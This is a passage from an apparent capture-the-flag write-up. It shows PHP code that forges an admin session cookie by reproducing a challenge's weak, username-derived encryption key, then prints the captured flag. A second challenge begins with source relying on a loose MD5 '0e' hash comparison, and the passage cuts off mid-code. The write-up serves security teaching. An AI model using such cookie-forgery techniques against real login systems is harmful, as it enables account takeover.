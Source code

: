 {% highlight php%}
>>> import hackercodecs
>>> "123_i89j6%2FHxno%2Bj14Thft%2BjlzbpzP1Qvqq6znJHbFMAdJ7YTFLiq0I4gzzsHrtFgr1ND%2FsuFU8H8A%2FI86YU5X0qIQ%3D%3D".decode('url')
'123_i89j6/Hxno+j14Thft+jlzbpzP1Qvqq6znJHbFMAdJ7YTFLiq0I4gzzsHrtFgr1ND/suFU8H8A/I86YU5X0qIQ=='
#id_encryptedstring_in_base64_in_url_encoded
{% endhighlight %}

This means we can forge our cookie to be connected as admin since we only need a valid hash based on his name.
{% highlight php%}
<?php function generateKey($pKey)
{
  if ($pKey == null || strlen($pKey) == 0)
  return null;

  $s = '';
  while (strlen($s)< 1000)
  $s .= $pKey;

  $e1 = 2;
  $e2 = 3;
  $r = '';
  for ($i = 0 ; $i < 12 ; $i++)
  {
    $e2 += $e1;
    $e1 = $e2 - $e1;
    $r .= $s[$e2];
  }

  return pack('H*', md5($r));
}

$user_id="1";
$key = generateKey("admin");
$iv = mcrypt_create_iv(mcrypt_get_iv_size(MCRYPT_RIJNDAEL_256, MCRYPT_MODE_CBC), MCRYPT_RAND);
$iv_to_pass_to_decryption = base64_encode($iv);
$encrypt = base64_encode($iv . mcrypt_encrypt(MCRYPT_RIJNDAEL_256, $key, "admin", MCRYPT_MODE_CBC, $iv));
echo $user_id . '_' . $encrypt;
?>
{% endhighlight %}
The "ID" of admin was '1', after replacing our cookie with the forged one we get the following flag:

{% highlight php%}
Well done! This is the super flag : ECW{527007e99d5068963281e660d5fb5a8d}
{% endhighlight %}





## Web 175 - Magic Car
The topic of this challenge was the following text: "Notre nouveau système de réservation de covoiturage a été piraté. Le pirate a ajouté un nouveau formulaire d'authentification et a changé le mot de passe administrateur. Nous avons réussi à retrouver le code source de l'interface, mais nous ne pouvons pas récupérer le service sans les informations d'identification valides.
Aide nous à les retrouver.". We had to find a way to login without a valid username/password. The source code of the challenge was also provided.
{% highlight php%}
<?php
require_once("flag.php");
$sec_pass = "0e413229387827631581229643338212";

if (isset($_POST['username']) && isset($_POST['password'])) {
  if (md5($_POST['password'] . $_POST['username']) == $sec_pass){
      return  $success;